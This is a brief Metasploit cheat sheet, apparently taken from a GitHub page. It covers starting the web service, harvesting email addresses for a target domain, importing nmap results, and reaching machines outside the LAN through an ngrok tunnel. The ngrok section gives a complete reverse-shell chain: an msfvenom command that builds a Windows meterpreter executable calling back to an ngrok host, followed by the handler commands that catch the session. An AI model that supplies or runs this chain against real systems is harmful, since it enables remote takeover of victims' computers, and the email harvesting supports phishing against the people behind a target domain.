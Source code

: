 Metasploit Web Server Interface:

Start the web service, listening on any host address:

```
# msfdb --component webservice --address 0.0.0.0 start
```

Metasploit Email Harvesting:

```
msf6 auxiliary(gather/search_email_collector) > set OUTFILE /tmp/emails.txt
OUTFILE => /tmp/emails.txt
msf6 auxiliary(gather/search_email_collector) > set DOMAIN target.com
DOMAIN => target.com
msf6 auxiliary(gather/search_email_collector) > run

[*] Harvesting emails.....
```

Attack outside of the LAN with ngrok:

First step, set up a free account in ngrok then start ngrok:

```
./ngrok tcp 9999

# Forwarding tcp://0.tcp.ngrok.io:19631 -> localhost:9999
```

Create malicious payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=19631 -f exe > payload.exe
```

Start listener:

```
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 0.0.0.0 set 
LPORT 9999 
exploit
```

Ingest Other Tools' Output Files:

```
# Start database
$ sudo systemctl start postgresql

# Initialize Metasploit database
$ sudo msfdb init

# Start msfconsole
$ msfconsole -q
msf6 >

# Help menu
msf6 > db_import -h

# Import other tool's output
msf6 > db_import ~/nmap_scan.xml

[*] Importing NMAP XML data
[*] Successfully imported  /home/kali/nmap_scan.xml
```
